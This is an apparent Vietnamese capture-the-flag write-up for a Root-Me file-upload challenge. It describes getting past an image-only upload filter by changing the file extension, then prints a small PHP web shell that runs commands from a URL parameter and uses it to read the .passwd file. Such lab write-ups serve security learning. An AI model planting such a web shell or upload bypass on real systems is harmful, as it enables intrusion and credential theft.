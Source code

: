 ## Link challenge: [File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

Vào challenge ta không thể upload các file ngoài các loại tệp hình ảnh `.jpeg, .gif, .png`. Ta sửa luôn đuôi file thành .png và upload lại là được luôn.

Thử với đoạn code thử ls - la, ta thu đc kết quả:

![img1](https://i.imgur.com/PCK8bGR.png)

Để thuận tiện hơn, nhập command line ta sửa đoạn code thành:

```
<?php
$output = system($_GET['command']);
echo "<pre>$output</pre>";
?>

```

Thêm `?command=...` phía cuối url là được. Ta directory travesal ta tìm được đường dẫn tới file `.passwd` và ta cat file là đọc được:

![img2](https://i.imgur.com/fPRwMIv.png)